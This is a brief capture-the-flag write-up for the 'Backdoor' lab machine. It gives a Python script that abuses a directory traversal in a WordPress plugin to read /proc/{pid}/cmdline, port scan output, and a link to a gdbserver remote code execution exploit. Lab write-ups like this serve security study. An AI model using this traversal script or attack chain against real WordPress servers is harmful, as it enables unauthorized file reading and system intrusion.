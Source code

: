 # Backdoor Write-Up

Easy

Tags: 
`PHP`
`Wordpress`
`Directory traversal`

## Intro

1. Wordpress -> Plugin -> Directory traversal
2. Brute-force `/proc/{pid}/cmdline`
3. RCE gdbserver

## Exploit

(option) Save IP address to `/etc/hosts`

```
echo "10.10.11.125 backdoor.htb" | sudo tee -a /etc/hosts
```

### Port scanning

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

### Plugin

Default location for Wordpress plugins: `/wp-content/plugins`

[WordPress Plugin eBook Download 1.1 - Directory Traversal](https://www.exploit-db.com/exploits/39575)

### Brute-force `/proc/{pid}/cmdline`

```py
def scan_proc_pid_cmdline():
    with open('output.txt', 'w') as f:
        output = ''
        for pid in range(850, 860):
            url = f'http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/{pid}/cmdline'    
            res = requests.get(url)
            out = res.text.replace(f'/proc/{pid}/cmdline/proc/{pid}/cmdline','').replace(f'/proc/{pid}/cmdline','').replace('<script>window.close()</script>','')
            print(f'{pid} - {out}')    
            output += out + '\n'
        f.write(output)
```

### RCE gdbserver

[GNU gdbserver 9.2 - Remote Command Execution (RCE)](https://www.exploit-db.com/exploits/50539)
